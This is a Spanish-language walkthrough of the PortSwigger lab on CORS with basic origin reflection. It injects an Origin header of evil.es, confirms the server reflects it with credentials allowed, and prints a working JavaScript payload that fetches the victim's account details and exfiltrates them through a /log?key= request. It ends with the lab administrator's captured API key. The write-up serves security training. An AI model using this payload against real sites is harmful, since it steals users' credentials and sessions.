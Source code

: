 ```yaml
---
icon: arrow-progress
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# PortSwigger - CORS vulnerability with basic origin reflection

Primero veremos una pagina web en la que tendremos que loguearnos con las credenciales que nos proporcionan:

```
User: wiener
Pass: peter
```

Una vez dentro veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Ahora si nos vamos al `HTTP History` de `BurpSuite` veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En esta parte de aqui, si nos vamos a la respuesta del servidor, veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que está esta linea:

```
Access-Control-Allow-Credentials: true
```

Por lo que ya nos esta dando una pista de que se puede inyectar un `Origin:` en la cabecera de la peticion, vamos a probarlo haciendo lo siguiente, pero antes lo enviaremos al `Repeater` para hacer nuestras pruebas con `Ctrl+R`:

```
GET /accountDetails HTTP/2
Host: 0ac200ae03914ae783adeb10005b0068.web-security-academy.net
Cookie: session=cqk6PNNi2yuPlScrp8epStylUJ6NSM5Q
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ac200ae03914ae783adeb10005b0068.web-security-academy.net/my-account?id=wiener
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
Origin: http://evil.es

```

Tiene que quedar algo asi como se muestra en lo anterior, ahora si lo enviamos y vemos la respuesta del servidor, veremos algo asi:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que esta funcionando, por que estamos viendo lo siguiente:

```
Access-Control-Allow-Origin: http://evil.es
Access-Control-Allow-Credentials: true
```

Por lo que esta confiando en el link que le estamos inyectando en el `Origin`, ahora vamos a darle al boton llamado `Go to exploit server` para emular nuestro servidor atacante y realizar el `exploit` contra el usuario victima que este logueado, veremos este apartado:

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

En la parte de `Body` tendremos que meter el `payload` para poder capturar la informacion del usuario y obtener el `TOKEN` del mismo, vamos a poner lo siguiente:

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','<PETICION_VULNERABLE>',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

Ahora vamos a obtener la `peticion` vulnerable donde llevamos al `repeater` antes con `BurpSuite` copiandola, para asi insertarla ahi en ese `payload` y poder capturar el `TOKEN` del usuario que este logueado.

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Y veremos algo asi:

```
URL = https://0ac200ae03914ae783adeb10005b0068.web-security-academy.net/accountDetails
```

Esto lo meteremos en nuestro `payload` y tendremos que tener algo asi:

```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ac200ae03914ae783adeb10005b0068.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

Ahora para probar el `exploit` le daremos a `Store` y despues `Deliver exploit to victim` y nos vamos a los `logs` dandole a `Access log`, con esto veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>

Veremos que hay un `/log?key=` que tiene el nombre de `administrador` por lo que vemos ha funcionado, vamos a obtener el valor entero que sera este:

```
/log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22cCPZoE0vdxZSEXbJzwB8XfmqOKrVU6mk%22,%20%20%22sessions%22:%20[%20%20%20%20%22jyoMkcVXMOZ22RmElbHuQBqps91se3Rf%22%20%20]}
```

Ahora lo decodificaremos y veremos lo siguiente:

```
{  "username": "administrator",  "email": "",  "apikey": "cCPZoE0vdxZSEXbJzwB8XfmqOKrVU6mk",  "sessions": [    "jyoMkcVXMOZ22RmElbHuQBqps91se3Rf"  ]}
```

Vemos que el `APIKey` del usuario `administrador` es:

```
cCPZoE0vdxZSEXbJzwB8XfmqOKrVU6mk
```

Ahora para validarlo le daremos a `Submit Solution` e introducimos ese `APIKey` con esto ya habremos terminado el `LAB`.

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>
